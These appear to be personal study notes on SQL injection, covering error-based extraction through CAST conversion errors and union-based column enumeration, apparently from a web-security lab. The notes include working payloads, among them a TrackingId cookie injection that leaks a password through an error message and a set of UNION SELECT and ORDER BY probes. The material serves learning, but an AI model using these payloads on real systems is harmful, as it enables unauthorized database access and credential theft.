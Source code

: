 try adding ' or " to produce an error

##### Boolean - Internal server error


##### Using conversion errors to get output

We can use error messages like
![[Images/Pasted image 20240903141047.png]]
We got this be injecting into a vulnerable spot, in this case the TrackingID cookie:
`Cookie: TrackingId='||CAST((SELECT password FROM users limit 1) AS int) --; session=8U6gCmtdwVmleBFAYhXe7mZwKiMkyUkh`
We did havet to remove the full actual tracking id since we couldn't input a lot of chars.
![[Images/Pasted image 20240903141338.png]]
Obs that we can see the query too.
### Union-Based

Union-Based = uses select union queries

union: Combines several select statements
- results must have the <u>same number of columns</u>
- the data needs to have a similar data type.

##### Get number of columns in the current table

try:
`0 union select 1`
`0 union select 1,2`
`0 union select 1,2,3`
until you find the right number of columns

(to be compatible with all databases and datatypes NULL can be used instead of numbers - Ex `somthing' union select NULL, NULL`
obs that this could result in errors depending on the use of the data as the returning values will be NULL - Ex `NullPointerException`)

to get rid of the rest of the query (like a password after a username) you can add `--` to the end like:
`0 union select 1,2,3 --` (in mysql a space is required after `--` so I use `-- -` or use `#` for commenting)

in **Oracle** the FROM keyword is required in a query and there's a special built in table called **dual** that can be used:
`' UNION SELECT NULL FROM DUAL--`

also make sure `0` does not return actual results or you will only see these since that would block the new data if we only can see one result

observe that 0 is specific for an int type and for a string probably would be replaced by `'`

we can also use
`0 order by 1`
`0 order by 2`
`0 order by 3`
until we get an error/not normally functioning page to find the number of columns
